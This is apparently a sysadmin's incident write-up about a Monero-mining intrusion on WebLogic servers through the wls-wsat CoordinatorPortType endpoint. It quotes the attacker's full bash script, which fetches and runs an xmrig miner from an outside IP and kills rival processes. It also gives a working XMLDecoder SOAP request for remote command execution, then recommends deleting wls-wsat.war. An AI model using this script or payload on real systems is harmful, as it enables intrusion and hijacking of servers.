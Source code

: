# Weblogic Component Vulnerability /wls-wsat/CoordinatorPortType wls-wsat.war

It was the day after new year. In one morning all of our java instances has been killed. We first suspected there was a manual reboot. 
So we started our application server as usual. We first started our node managers. Then started our admin server and our java applications.
While we were working on these jobs, suddenly in one machine all of our java processes had been killed. We immediately informed our product owner saying that there could be a manual intervention somewhere else even if we could not find the logged in user. We also suspected that the ssh user had been compromised then changed the password with a relief.

After two hours everything went normally. Then the ultimate catastrophic event happened. Our java instances had been killed again. When we check the processes there were two java processes which eat up the cpu like a hungry pig. We decided not to kill these processes but examine them. When we inspect it with netstat we saw that they send packages to the following IP address.

'''
http://145.239.0.84/
Mining Pool Online
'''

We checked the history and could not believe our eyes.

'''
#!/bin/bash
sPid=$$
mPid=''
mName='java'
checkCmd() {     command -v $1 >/dev/null 2>&1; }
downloader () {     if checkCmd wget; then         wget $1 -O $2 ;     elif checkCmd curl; then         curl $1 -o $2;     elif checkCmd python; then         if [ "`python -c "import sys; print(sys.version_info[0])"`" = "3" ]; then             python -c "from urllib.request import urlopen; u = urlopen('"$1"'); localFile = open('"$2"', 'wb'); localFile.write(u.read()); localFile.close()";         else             python -c "from urllib import urlopen; u = urlopen('"$1"'); localFile = open('"$2"', 'wb'); localFile.write(u.read()); localFile.close()";         fi;     else         cat < /dev/tcp/165.227.215.25/5555 > $2;     fi;     chmod +x $2; }
killer() {     for tmpVar in `ps -aeo pid,%cpu,command | sed 1d | sort -k 2 | tail -n 10 | awk '{print $1}'`; do         if [ $tmpVar = $sPid ]; then             continue;         fi;         if [ $tmpVar = $mPid ]; then             continue;         fi;         if [ `ps -o %cpu $tmpVar | sed 1d | sed 's/\..*//g'` -ge 60 ]; then             if [ `ps $tmpVar | sed 1d | awk '{print $5}' | grep java` ]; then                 continue;             fi;             if [ `ps $tmpVar | sed 1d | awk '{print $5}' | grep sh` ]; then                 continue;             fi;             if [ `ps $tmpVar | sed 1d | awk '{print $5}' | grep bash` ]; then                 continue;             fi;             kill -9 $tmpVar;             rm -f `ls -l /proc/$tmpVar/exe 2>&1 | sed 's/.*-> //g'`;         fi;     done; }
runer() {     if [ -z "$mPid" ]; then         if [ ! -f $mName ]; then             downloader http://165.227.215.25/xmrig-y $mName;         fi;         chmod +x ./$mName;         ./$mName;     fi;     mPid=`ps -eo pid,command | grep $mName | head -n 1 | awk '{print $1}'`; }
pkill python; pkill $mName
downloader http://165.227.215.25/xmrig-y $mName
'''

Someone had been killed all of our processes except its process. Downloaded a modified executable named xmrig which was apparently a Monero (XMR) CPU miner. Started this executable and started mining XMR on our servers. The process was named as java and was sending data to the Mining Pool Online (http://145.239.0.84/)

We were shocked. After a couple of hours of blaming and panicking we discovered that it was a sneaky attack on our WebLogic servers.

There is a path in WebLogic server wls-wsat/CoordinatorPortType which can be used to execute any kind of soap request. So when I post this request.

'''
POST your_host/wls-wsat/CoordinatorPortType HTTP 1.1

Host: host_name
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: wp-settings-time-1=1506773666
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Connection: close

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">;;
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">;;
            <java version="1.8" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>ls -l >> a_random_file.txt |bash</string>
                        </void>
                    </array>
                    <void method="start" />
                </void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body />
</soapenv:Envelope>

'''

The soap request has been executed. The request mainly creates a ProcessBuilder object and executes it!!!
So only with a HTTP request, I can execute any command on the remote server!!!

We were actually happy when we discovered that. 

Our solution was to delete the responsible war. You can find it with the following command.

'''
locate wls-wsat.war
'''

Just delete it. Do not spend time for patching your useless weblogic server. 
Weblogic sucks!!!